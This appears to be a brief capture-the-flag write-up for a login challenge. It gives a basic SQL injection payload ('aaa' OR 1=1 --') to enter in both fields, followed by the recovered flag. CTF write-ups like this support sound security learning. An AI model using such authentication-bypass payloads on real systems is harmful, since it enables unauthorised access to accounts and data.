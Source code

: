 # Login

Basic SQL injection:
```
aaa' OR 1=1 --]
```

in both fields.

#### Flag: flag{0bl1g4t0ry_5ql1}
